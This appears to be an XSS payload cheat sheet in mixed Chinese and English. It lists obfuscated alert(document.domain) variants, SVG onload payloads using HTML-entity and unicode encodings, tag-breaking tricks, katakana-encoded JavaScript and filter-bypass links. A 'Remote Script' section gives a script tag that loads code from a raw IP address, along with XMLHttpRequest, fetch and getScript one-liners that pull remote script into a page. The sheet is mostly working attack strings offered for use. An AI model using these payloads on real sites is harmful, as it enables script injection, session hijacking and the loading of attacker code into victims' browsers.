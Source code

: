 ## 一些alert(document.domain)的方法
- `(alert)(document.domain);`
- `al\u0065rt(document.domain);`
- `al\u{65}rt(document.domain);`
- `window['alert'](document.domain);`
- `alert.call(null,document.domain);`
- `alert.bind()(document.domain);`

## Some Payload
- `<svg/onload=alert(1);alert(2)>`
- `<svg/onload="alert(1);alert(2)">`
- `<svg/onload="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;;alert(2)">`
    - `;;`改成`;`會失敗
    - 雙引號可去掉
    - 可10進位, 16進位混合
- `<svg/onload=\u0061\u006c\u0065\u0072\u0074(1)>`
    - \u形式只能用在javascript，例如onload的a改成\u0061會失敗
- `<title><a href="</title><svg/onload=alert(1)>`
    - title優先權較大，直接中斷其他標籤
- `<svg><script>prompt&#40;1)</script>`
    - 因為`<svg>`，HTML Entities會被解析
    - 去掉`<svg>`會失敗，`<script>`不會解析Entities
- `<? foo="><script>alert(1)</script>">`
- `<! foo="><script>alert(1)</script>">`
- `</ foo="><script>alert(1)</script>">`
- `<% foo="><script>alert(1)</script>">`
- `([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ア+=ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ア](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()` [katakana.js](https://github.com/aemkei/katakana.js)

## Remote Script
* `<script src="https://184.75.249.44/import.js"></script>`
* `<svg onload=PAYLOAD>` [BRUTE XSS](https://brutelogic.com.br/blog/calling-remote-script-with-event-handlers/)
    * `"var x=new XMLHttpRequest();x.open('GET','//0');x.send(); x.onreadystatechange=function(){if(this.readyState==4){write(x.responseText)}}"`
    * `fetch('//0').then(r=>{r.text().then(w=>{write(w)})})`
    * `with(top)body.appendChild (createElement('script')).src='//0'`
    * `$.get('//0',r=>{write(r)})`
    * `$.getScript('//0')`
    
## Polyglot XSS
在各種地方都可以運作的 payload
[GitHub Wiki](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

# Bypass
[只用五種字元的 JavaScript](https://speakerdeck.com/masatokinugawa/shibuya-dot-xss-techtalk-number-10)
## JavaScript ES6 features
```javascript
alert`1`
eval.call`${'alert\x281)'}
```

